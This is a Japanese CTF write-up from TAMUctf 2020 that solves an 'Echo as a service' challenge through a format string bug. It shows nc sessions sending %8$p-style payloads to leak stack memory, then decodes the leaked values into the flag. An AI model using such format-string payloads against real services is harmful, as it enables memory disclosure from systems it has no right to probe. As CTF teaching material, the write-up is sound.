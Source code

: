 FSB (Format String Bug) がありますね。（printf(local_28);の箇所）


<br>
テキトーに %1$s から順番に見ていけばそのうちフラグが出るだろうと思ってやってみたんですが、全然出てこない。。。

<br>
ローカルでちょこちょこテストしていたところ、`%8$p` `%9$p` 辺りで文字列になりそうな数字が出ているのに気づきました。

しかも、順番がreverseになってます。

<pre>
0x6c667b6d65676967
lf{megig

0x7d757365645f6761
}used_ga
</pre>

<br>

ということで、CTFサーバ側にも同様なことをやってみます。
<pre>
captureamerica@kali:~/CTF/TAMUctf_2020$ nc challenges.tamuctf.com 4251
Echo as a service (EaaS)
%8$p
0x61337b6d65676967
Echo as a service (EaaS)
%9$p
0x616d7230665f7973
Echo as a service (EaaS)
%10$p
0x7d316e6c75765f74
Echo as a service (EaaS)
%11$p
(nil)
Echo as a service (EaaS)
</pre>

<br>
以下のように文字列に変換しました。

<pre>
captureamerica@kali:~/CTF/TAMUctf_2020$ unhex 7d316e6c75765f74616d7230665f797361337b6d65676967 | rev ; echo
gigem{3asy_f0rmat_vuln1}
</pre>


Flag: `gigem{3asy_f0rmat_vuln1}`



<br /><br />
<br /><br />
## [Pwn]: TROLL
- - -
### Challenge
> There's a troll who thinks his challenge won't be solved until the heat death of the universe.
<br /><br />
nc challenges.tamuctf.com 4765
